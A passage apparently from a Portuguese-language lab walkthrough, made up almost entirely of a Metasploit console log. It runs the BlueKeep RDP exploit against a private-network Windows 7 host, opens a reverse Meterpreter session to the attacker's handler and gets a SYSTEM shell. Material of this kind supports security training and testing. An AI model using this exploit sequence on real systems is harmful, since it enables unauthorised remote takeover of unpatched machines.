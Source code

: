 ```
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] 192.168.1.37:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.37:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.1.37:3389     - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.1.37:3389     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.37:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.1.37:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8011e07000, Channel count 1.
[!] 192.168.1.37:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.1.37:3389 - Surfing channels ...
[*] 192.168.1.37:3389 - Lobbing eggs ...
[*] 192.168.1.37:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.1.37:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Sending stage (203846 bytes) to 192.168.1.37
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.37:49159) at 2025-08-28 22:08:47 -0300

meterpreter > getuid
Server username: AUTORIDADE NT\SISTEMA
meterpreter > 
meterpreter > shell
Process 1088 created.
Channel 1 created.
Microsoft Windows [vers�o 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

C:\Windows\system32>
```
Mais uma vez, conseguimos acesso a conta **AUTORIDADE NT\SISTEMA**



